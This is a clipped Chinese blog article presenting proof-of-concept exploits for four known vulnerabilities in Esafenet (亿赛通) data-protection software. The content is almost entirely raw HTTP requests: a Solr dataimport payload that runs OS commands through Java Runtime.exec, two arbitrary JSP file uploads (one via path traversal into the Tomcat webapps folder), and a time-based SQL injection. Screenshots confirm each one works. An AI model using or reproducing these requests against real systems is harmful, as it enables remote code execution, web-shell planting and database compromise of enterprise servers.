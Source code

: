 ```yaml
---
title: 亿赛通4个Nday漏洞POC
url: https://mp.weixin.qq.com/s?__biz=MzAxNzkyOTgxMw==&mid=2247492421&idx=1&sn=37e06beb967da199e511af0e328976d4&chksm=9bdca07facab2969874415f58775e4becc7da987c26d473d2d56b1beb42be5b08aed524ac183&mpshare=1&scene=1&srcid=03117neMubmw6DEMOfMsiCIn&sharer_shareinfo=9b2dbafa999359edddea0c958d93d902&sharer_shareinfo_first=9b2dbafa999359edddea0c958d93d902#rd
clipped_at: 2024-03-31 16:09:09
category: temp
tags: 
 - mp.weixin.qq.com
---
```



# 亿赛通4个Nday漏洞POC

**写在前面**

    前几天公众号看到亿赛通DLP近期有个大量接口的远程命令执行的漏洞，想起来自家也购买了这个加密软件，就顺手把历史所有的漏洞都测了一遍。最后发现有一个远程命令执行漏洞，两个任意文件上传漏洞，一个SQL注入漏洞。

    推送内容就直接放利用成功漏洞的POC和截图了。

  

**目录**  

```plain
0x01 亿赛通dataimport接口任意命令执行
0x02 亿赛通UploadFileFromClientServiceForClient接口任意文件上传
0x03 亿赛通DecryptApplicationService2接口任意文件上传
0x04 亿赛通update-sql注入
```

- - -

- - -

  

**亿赛通dataimport接口任意命令执行**

```plain
POST /solr/flow/dataimport?command=full-import&verbose=false&clean=false&commit=false&debug=true&core=tika&name=dataimport&dataConfig=%0A%3CdataConfig%3E%0A%3CdataSource%20name%3D%22streamsrc%22%20type%3D%22ContentStreamDataSource%22%20loggerLevel%3D%22TRACE%22%20%2F%3E%0A%0A%20%20%3Cscript%3E%3C!%5BCDATA%5B%0A%20%20%20%20%20%20%20%20%20%20function%20poc(row)%7B%0A%20var%20bufReader%20%3D%20new%20java.io.BufferedReader(new%20java.io.InputStreamReader(java.lang.Runtime.getRuntime().exec(%22ipconfig%22).getInputStream()))%3B%0A%0Avar%20result%20%3D%20%5B%5D%3B%0A%0Awhile(true)%20%7B%0Avar%20oneline%20%3D%20bufReader.readLine()%3B%0Aresult.push(%20oneline%20)%3B%0Aif(!oneline)%20break%3B%0A%7D%0A%0Arow.put(%22title%22%2Cresult.join(%22%5Cn%5Cr%22))%3B%0Areturn%20row%3B%0A%0A%7D%0A%0A%5D%5D%3E%3C%2Fscript%3E%0A%0A%3Cdocument%3E%0A%20%20%20%20%3Centity%0A%20%20%20%20%20%20%20%20stream%3D%22true%22%0A%20%20%20%20%20%20%20%20name%3D%22entity1%22%0A%20%20%20%20%20%20%20%20datasource%3D%22streamsrc1%22%0A%20%20%20%20%20%20%20%20processor%3D%22XPathEntityProcessor%22%0A%20%20%20%20%20%20%20%20rootEntity%3D%22true%22%0A%20%20%20%20%20%20%20%20forEach%3D%22%2FRDF%2Fitem%22%0A%20%20%20%20%20%20%20%20transformer%3D%22script%3Apoc%22%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%3Cfield%20column%3D%22title%22%20xpath%3D%22%2FRDF%2Fitem%2Ftitle%22%20%2F%3E%0A%20%20%20%20%3C%2Fentity%3E%0A%3C%2Fdocument%3E%0A%3C%2FdataConfig%3E%0A%20%20%20%20%0A%20%20%20%20%20%20%20%20%20%20%20 HTTP/1.1
Host: IP：PORT
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept-Encoding: gzip, deflate
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Te: trailers
Connection: close
Content-Length: 88

<?xml version="1.0" encoding="UTF-8"?>
        <RDF>
        <item/>
        </RDF>
```

![图片](assets/1711872549-a4543a8fbc54f6d6a7a9f1d304a17ac5.webp)

  

## 

## **亿赛通UploadFileFromClientServiceForClient接口任意文件上传**

```plain
POST /CDGServer3/UploadFileFromClientServiceForClient?AFMALANMJCEOENIBDJMKFHBANGEPKHNOFJBMIFJPFNKFOKHJNMLCOIDDJGNEIPOLOKGAFAFJHDEJPHEPLFJHDGPBNELNFIICGFNGEOEFBKCDDCGJEPIKFHJFAOOHJEPNNCLFHDAFDNCGBAEELJFFHABJPDPIEEMIBLAOLBAKBNDHLIGBKEOJLICAIDMGEDJKGP HTTP/1.1
Host: IP：PORT
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.77 Safari/537.36
Content-Type:multipart/form-data;boundary=----WebKitFormBoundarymVk33liI64J7GQaK

pentest
```

![图片](assets/1711872549-136a42288f8f1ee591f4db81096167be.png)

文件地址：/N0th1ng.jsp

![图片](assets/1711872549-ec31f921fd62258ea91af73f9cecb0ae.webp)

##   

## **亿赛通DecryptApplicationService2接口任意文件上传**

```plain
POST /CDGServer3/DecryptApplicationService2?fileId=../../../Program+Files+(x86)/ESAFENET/CDocGuard+Server/tomcat64/webapps/CDGServer3/pentest.jsp HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT 6.4; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2225.0 Safari/537.36
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Host:  IP：PORT
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/117.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Cookie: JSESSIONID=B9964151074C71F115A9C803FFF05C34
Upgrade-Insecure-Requests: 1
Content-Length: 11

pentest
```

![图片](assets/1711872549-5a9f81a1a0dfdf285a18feb6b07af63b.webp)

文件地址：/CDGServer3/pentest.jsp

![图片](assets/1711872549-a66eadb4bd83ca153389503cc6070e2b.webp)

##   

## **亿赛通update接口sql注入**

```plain
GET /CDGServer3/workflowE/useractivate/update.jsp?flag=1&ids=1,3);WAITFOR%20DELAY%20%270:0:1%27-- HTTP/1.1
Host:
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/117.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: JSESSIONID=0E05880315C89F32A53653313D83EC57; JSESSIONID=ACDE6D30E6BCEC22E1F90536FEEBD951
Upgrade-Insecure-Requests: 1
Content-Length: 0
```

delay了4秒，可能语句不止执行一次

![图片](assets/1711872549-92f2af41259a63f443e84939d44f7676.webp)  

![图片](assets/1711872549-f799cde03db8bdf25261741925a74383.webp)

- - -